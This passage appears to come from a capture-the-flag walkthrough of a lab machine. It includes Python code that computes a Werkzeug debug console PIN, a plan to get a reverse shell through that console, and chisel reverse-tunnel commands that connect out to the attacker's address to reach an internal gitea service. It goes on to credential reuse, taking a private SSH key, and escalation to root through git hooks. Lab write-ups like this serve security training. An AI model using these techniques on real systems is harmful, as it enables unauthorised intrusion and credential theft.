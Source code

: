 ```python
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
PIN recovered: `921-105-725` after entering this into the console PIN popup, we get access to the debug console shell and we can use this to get a reverse shell!

Once we get a shell and run `ifconfig eth0` we can see that it's a docker container due to the address's format: `172.17.x.x`. Remember from the port scan we found port `3000` open but it was filtered. Running a quick wget on the 'host' of the docker container `172.17.0.1:3000` retrieves a gitea instance. Let's download `chisel` onto the host and start a reverse proxy so that we can access the gitea instance.

On local machine:
```bash
chisel server -p 1234 --reverse
```

On the remote machine after downloading chisel from your local machine:
```bash
chisel client 10.10.16.214:1234 R:3000:172.17.0.1:3000
```

Now after we get a connection back, I logged into the instance using  the username/password I found from running `git diff`. After logging in, there is a repo called `home-backup` which contains `.ssh`. From here, we can grab the private SSH key, then use this to SSH into the machine as the `dev01` user.

### root
After doing a bit of enumeration, I eventually downloaded `pspy64` from my local machine to check the running processes. After running this, we can see there is a git commit that is ran on a schedule. [This](https://www.atlassian.com/git/tutorials/git-hooks) post shows how we can utilize git hooks to get code execution.
